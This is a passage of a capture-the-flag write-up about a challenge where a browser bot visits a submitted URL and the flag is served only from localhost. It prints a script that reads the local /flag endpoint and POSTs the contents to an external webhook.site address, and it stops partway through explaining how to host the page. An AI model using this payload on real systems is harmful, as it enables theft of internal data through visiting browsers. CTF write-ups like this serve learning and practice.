

# Description
I heard you like flags, so I launched Chrome with a lot of flags again so you can get your flag!
This time the flag is localhost:1337/flag, and the bot will visit your URL!

# Solution
The challenge is similiar to the so-many-flags but now instead of providing the HTML directly, we need to provide a URL to a page, to which the server sends the request.
```javascript
app.post('/submit', (req, res) => {
  const { url } = req.body;

  if (!url) {
    return res.status(400).send('No URL provided');
  }

  let parsed = new URL(url);
  if (parsed.protocol !== 'http:' && parsed.protocol !== 'https:') {
    return res.status(400).send('Invalid URL');
  }
  ...
}
```

The server now also has `/flag` endpoint, which can be only accessed from the running instance. So the goal is pretty simple, create a website, which will make a request to `/flag` endpoint and return the result to us. For this I have used the same script from the previous challenge:
```javascript
<script>
    fetch("http://127.0.0.1/flag")
        .then(response => response.text())
        .then(text => {
            fetch("https://webhook.site/d439b603-a9e7-4158-9448-079ee2255c89", {
                method: "POST",
                body: text
            });
        });
</script>
```

Now the only thing is to create a server which the target can reach and get the exploit. I've explored 2 options
1. I found another [webhook website](https://webhook.site/), which can serve GET and POST responses, which can be configured